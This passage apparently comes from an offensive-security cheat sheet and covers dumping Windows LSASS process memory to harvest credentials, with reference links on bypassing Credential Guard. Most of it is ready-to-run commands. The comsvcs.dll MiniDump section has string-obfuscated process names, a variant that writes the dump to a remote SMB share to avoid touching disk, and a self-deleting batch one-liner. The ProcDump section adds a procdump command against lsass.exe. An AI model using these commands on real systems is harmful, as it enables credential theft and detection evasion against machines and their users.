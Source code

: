 - [https://research.ifcr.dk/pass-the-challenge-defeating-windows-defender-credential-guard-31a892eee22](https://research.ifcr.dk/pass-the-challenge-defeating-windows-defender-credential-guard-31a892eee22)
- [https://github.com/ly4k/PassTheChallenge](https://github.com/ly4k/PassTheChallenge)




## Tools



### comsvcs.dll

* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll)
* [https://github.com/Hackndo/lsassy/blob/master/lsassy/dumpmethod/comsvcs.py](https://github.com/Hackndo/lsassy/blob/master/lsassy/dumpmethod/comsvcs.py)
* [https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e](https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e)
* [https://sp00ks-git.github.io/posts/LSASS-Encrypted-Dump/](https://sp00ks-git.github.io/posts/LSASS-Encrypted-Dump/)

```
PS > $proc = 'ls'+'Ass'
PS > Get-Process $proc
PS > rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_PID> C:\Windows\System32\spool\drivers\color\pony.dat full
```

Not touching the disk (using an SMB share):

```
PS > net use z: \\10.10.13.37\share
PS > rundll32.exe c:\Windows\System32\comsvcs.dll, MiniDump (Get-Process ('ls'+'Ass')).id z:\pony.dat full
```

One-liner:

```
Cmd > %COMSPEC% /Q /c echo powershell.exe -NoP -C "%WINDIR%\System32\rundll32.exe %WINDIR%\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id %WINDIR%\Temp\pony.arj full;Wait-Process -Id (Get-Process rundll32).Id" 2^>^&1 > temp.bat & %COMSPEC% /Q /c temp.bat & del temp.bat
```



### ProcDump

- [https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
- [https://download.sysinternals.com/files/Procdump.zip](https://download.sysinternals.com/files/Procdump.zip)
- [https://live.sysinternals.com/](https://live.sysinternals.com/)

```
PS > .\procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
```
